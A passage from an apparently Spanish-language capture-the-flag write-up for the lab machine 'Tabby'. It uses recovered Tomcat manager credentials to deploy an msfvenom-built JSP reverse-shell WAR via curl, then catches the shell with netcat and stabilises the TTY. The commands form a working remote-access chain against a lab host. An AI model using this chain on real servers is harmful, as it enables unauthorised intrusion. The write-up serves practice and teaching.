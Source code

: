 Sacamos las credenciales `tomcat` y `$3cureP4s5w0rd123!`, por lo que vamos a ver que podemos hacer con esto.

------------------------
# APACHE TOMCAT 9 EXPLOTATION

- Vamos a intentar desplegar un archivo `WAR`, solo podremos desplegarlo si tenemos suficientes privilegios (admin, manager o manager-script)

```bash
curl --upload-file monshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?=path/pwned"
```

- Creamos el `monshell.war` primero con `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.13 LPORT=443 -f war -o monshell.war
```

```bash
curl --upload-file monshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/pwned"
OK - Deployed application at context path [/pwned]
```

Como vemos se sube nuestra `app` correctamente, nos ponemos en escucha por el puerto indicado que en este caso es el `443` para recibir la `reverse-shell` y por ultimo lo que tenemos que hacer es acceder a la ruta `http://10.10.10.194:8080/pwned` y recibiremos la shell automáticamente.

```bash
nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.194 57080
whoami
tomcat
```

------------------
# TRATAMIENTO DE LA TTY

```bash
script /dev/null -c bash
Script started, file is /dev/null
tomcat@tabby:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 443
stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
stty size -> (ver el tamaño de nuestra tty en nuestra terminal atacante)
tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
tomcat@tabby:/var/lib/tomcat9$ stty rows 38 columns 183
```
